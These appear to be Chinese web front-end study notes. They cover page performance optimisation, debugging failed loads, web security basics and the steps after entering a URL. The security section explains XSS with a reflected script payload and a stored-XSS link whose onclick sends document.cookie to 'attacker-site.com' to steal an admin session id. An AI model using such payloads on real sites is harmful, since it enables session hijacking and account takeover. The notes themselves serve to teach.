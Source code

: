 - 代码合并成一个文件
- 代码本身的优化
- 代码压缩工具Gzip
- 正文dom放上面
- css放上面，用link而不是@import
- js放下面
- 用函数声明的方式（而不是函数表达式）定义函数；因为会两次解析函数表达式
- 高复用低耦合，这样文件小，好维护，而且好扩展。

**图片**
- 特殊背景图展开
- 图片尺寸把握
- 相较于gif，最好用png8
- 图片压缩
- 雪碧图，减少http请求

**综合技术**
- lazy load
- cdn代码托管
- 七牛云图片托管

**服务器端**
- 特殊文件（logo）缓存时效的设置
- cache-control
- 减小cookie体积

## 网页加载不出问题
1. 进console
2. http status
3. chrome-debuger

## 网络安全方面的知识
- sql注入
- DDoS攻击
- xss
在GET时：index.php?name=guest<script>alert('attacked')</script>
<a href=# onclick=\"document.location=\'http://attacker-site.com/xss.php?c=\'+escape\(document.cookie\)\;\">bangerlee</a>。攻击者提交了条带<a>标签的数据，该条数据将保存在数据库中，而当 admin 用户登入时，包含 "bangerlee" 的用户列表将显示，如果 admin 用户点击 "bangerlee" 时，在 "attacker-site.com" 所在的服务器上，攻击者就可以窃取到 admin 的session-id。

## 输入URL之后发生了什么
- 物理层
- 网际层DNS解析，ip寻址
- 传输层TCP三次握手
- 应用层HTTP请求
- 后台：负载均衡，服务器解析请求
- 交给后台语言
- HTTP响应
- 根据状态码产生分支：304重定向找本地缓存或200成功
- html先加载，加载完成后渲染DOM tree；然后是重定向的内容，然后是data的内容，然后是css，加载完成后渲染render tree；最后加载js。
